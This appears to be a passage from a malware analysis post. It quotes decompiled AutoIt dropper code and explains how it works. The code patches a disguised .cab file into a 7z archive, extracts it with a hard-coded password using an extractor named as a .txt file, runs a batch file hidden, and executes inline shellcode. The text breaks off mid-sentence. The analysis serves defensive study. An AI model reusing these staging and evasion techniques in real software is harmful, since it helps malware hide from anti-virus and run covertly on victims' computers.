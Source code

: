 ```au3
                Else
                    $sinfile = @ScriptDir & "\dxdllreg_x86.cab"
                    $sfind = "00000000001C0004"
                    $sreplace = "377ABCAF271C0004"
                    $soutfile = @TempDir & "\CRDebugLog.txt"
                    _binaryreplace($sinfile, $sfind, $sreplace, $soutfile)
                    FileChangeDir(@TempDir)
                    FileInstall("CLDe2bugLog.txt", @TempDir & "\CLDe2bugLog.txt")
                    FileChangeDir(@TempDir)
                    RunWait('CLDe2bugLog.txt e -p"DQMDDMNBQ3824Nnd2nd8812@2*$(#!&NDQB2" CRDebugLog.txt', "", @SW_HIDE)
                    Run("start.bat", "", @SW_HIDE)
                EndIf
            Next
        EndIf
    Else
    EndIf
Else
EndIf

Func _binaryreplace($sinfile, $sfind, $sreplace, $soutfile)
    Local $fo, $fr
    $fo = FileOpen($sinfile, 16)
    $fr = FileRead($fo)
    FileClose($fo)
    $fr = StringReplace($fr, $sfind, $sreplace, 1)
    $fo = FileOpen($soutfile, 18)
    FileWrite($fo, $fr)
    FileClose($fo)
EndFunc

Func _aes()
    $struct = DllStructCreate("int eax; int ebx; int ecx; int edx")
    $strcode = "0x515352518B7C24148B4424180FA28907895F04894F0889570C595A5B5831C0C20800"
    $tbindata = DllStructCreate("byte[" & BinaryLen($strcode) & "]")
    DllStructSetData($tbindata, 1, $strcode)
    DllCallAddress("none", DllStructGetPtr($tbindata), "ptr", DllStructGetPtr($struct), "int", 1)
    $aes = (BitAND(DllStructGetData($struct, 3), 33554432))
    Return $aes
EndFunc
```

It tries to identify your anti-virus and based on that drops `CLDe2bugLog.txt` in your temp directory with the `FileInstall` function. It then replaces the bytes `00000000001C0004` with `377ABCAF271C0004` (7z header) and extracts it with the following command:

```
CLDe2bugLog.txt e -p"DQMDDMNBQ3824Nnd2nd8812@2*$(#!&NDQB2" CRDebugLog.txt
```

The contents of `CRDebugLog.txt`, but the malware inside does pretty much the same thing. I (unfortunately) looked at the contents of `dxdllreg_x86`:
